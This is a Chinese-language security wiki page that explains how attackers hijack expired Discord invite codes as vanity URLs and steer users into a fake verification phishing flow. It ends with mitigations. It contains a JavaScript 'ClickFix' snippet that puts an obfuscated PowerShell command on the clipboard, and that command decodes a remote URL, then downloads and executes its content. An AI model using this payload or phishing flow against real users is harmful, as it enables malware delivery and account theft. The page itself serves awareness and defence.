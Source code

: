 # Discord 邀请劫持

{{#include ../../banners/hacktricks-training.md}}

Discord 的邀请系统漏洞允许威胁行为者声称过期或已删除的邀请代码（临时、永久或自定义虚荣）作为任何 Level 3 提升服务器上的新虚荣链接。通过将所有代码标准化为小写，攻击者可以预先注册已知的邀请代码，并在原始链接过期或源服务器失去提升后静默劫持流量。

## 邀请类型和劫持风险

| 邀请类型               | 可劫持？ | 条件 / 备注                                                                                             |
|-----------------------|-------------|--------------------------------------------------------------------------------------------------------|
| 临时邀请链接          | ✅          | 过期后，代码变得可用，可以被提升服务器重新注册为虚荣 URL。                                           |
| 永久邀请链接          | ⚠️          | 如果被删除且仅由小写字母和数字组成，代码可能会再次变得可用。                                        |
| 自定义虚荣链接        | ✅          | 如果原始服务器失去其 Level 3 Boost，其虚荣邀请将可供新注册。                                        |

## 利用步骤

1. 侦察
- 监控公共来源（论坛、社交媒体、Telegram 频道）以寻找匹配模式 `discord.gg/{code}` 或 `discord.com/invite/{code}` 的邀请链接。
- 收集感兴趣的邀请代码（临时或虚荣）。
2. 预注册
- 创建或使用一个具有 Level 3 Boost 权限的现有 Discord 服务器。
- 在 **服务器设置 → 虚荣 URL** 中，尝试分配目标邀请代码。如果被接受，该代码将被恶意服务器保留。
3. 劫持激活
- 对于临时邀请，等待原始邀请过期（或如果您控制源，则手动删除它）。
- 对于包含大写字母的代码，小写变体可以立即被声明，尽管重定向仅在过期后激活。
4. 静默重定向
- 一旦劫持激活，访问旧链接的用户将无缝地被发送到攻击者控制的服务器。

## 通过 Discord 服务器的钓鱼流程

1. 限制服务器频道，使只有 **#verify** 频道可见。
2. 部署一个机器人（例如，**Safeguard#0786**）提示新来者通过 OAuth2 进行验证。
3. 机器人将用户重定向到一个钓鱼网站（例如，`captchaguard.me`），伪装成 CAPTCHA 或验证步骤。
4. 实施 **ClickFix** 用户体验技巧：
- 显示一个损坏的 CAPTCHA 消息。
- 指导用户打开 **Win+R** 对话框，粘贴预加载的 PowerShell 命令，然后按 Enter。

### ClickFix 剪贴板注入示例
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
这种方法避免了直接下载文件，并利用熟悉的用户界面元素来降低用户的怀疑。

## 缓解措施

- 使用包含至少一个大写字母或非字母数字字符的永久邀请链接（永不过期，不可重复使用）。
- 定期更换邀请代码并撤销旧链接。
- 监控 Discord 服务器的提升状态和个性化 URL 的声明。
- 教育用户验证服务器的真实性，并避免执行剪贴板粘贴的命令。

## 参考文献

- 从信任到威胁：被劫持的 Discord 邀请用于多阶段恶意软件交付 – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord 自定义邀请链接文档 – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include /banners/hacktricks-training.md}}
